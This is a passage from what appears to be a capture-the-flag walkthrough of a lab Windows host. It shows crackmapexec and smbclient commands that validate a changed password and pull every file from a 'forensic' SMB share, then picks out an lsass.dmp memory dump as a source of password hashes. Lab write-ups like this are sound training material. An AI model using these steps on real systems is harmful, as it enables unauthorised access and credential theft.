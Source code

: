After the password change we can confirm the credentials with `crackmapexec`.

```bash
crackmapexec smb 10.10.10.192 -u 'audit2020' -p 'Password123' --shares
```

![](<../../../.gitbook/assets/image (2044) (1) (1) (1) (1) (2).png>)

From our previous findings we know that a forensic SMB share exists. The user _audit2020_ has access to the share.

```bash
smbclient -U 'audit2020' '\\10.10.10.192\forensic'  -c 'prompt OFF;recurse ON; mget *' 
```

![](<../../../.gitbook/assets/image (2048) (1) (1) (1) (1) (1) (1).png>)

Looking inside the memory\_analysis folder, the most interest standout file would be lsass.dmp. Hopefully we can pull some user hashes or password from this.

